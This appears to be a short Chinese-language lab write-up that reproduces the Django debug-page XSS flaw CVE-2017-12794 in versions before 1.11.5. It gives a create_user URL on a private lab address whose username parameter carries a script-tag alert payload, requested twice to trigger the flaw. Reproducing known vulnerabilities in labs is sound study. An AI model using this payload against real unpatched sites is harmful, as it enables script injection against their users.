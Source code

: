# Django debug page XSS漏洞（CVE-2017-12794）

> 漏洞说明

Django 1.11.5版本之前，在500页面存在的一个 XSS 漏洞



> 前提条件

版本：Django < 1.11.5 



> 利用工具



> 漏洞复现

启动漏洞环境，访问http://192.168.40.77:8000/create_user/?username=<script>alert(1)</script>创建一个用户，成功；

![image-20221231191218919](../img/Django_CVE-2017-12794/image-20221231191218919.png)

再次访问http://192.168.40.77:8000/create_user/?username=<script>alert(1)</script>，成功触发XSS

![image-20221231202508814](../img/Django_CVE-2017-12794/image-20221231202508814.png)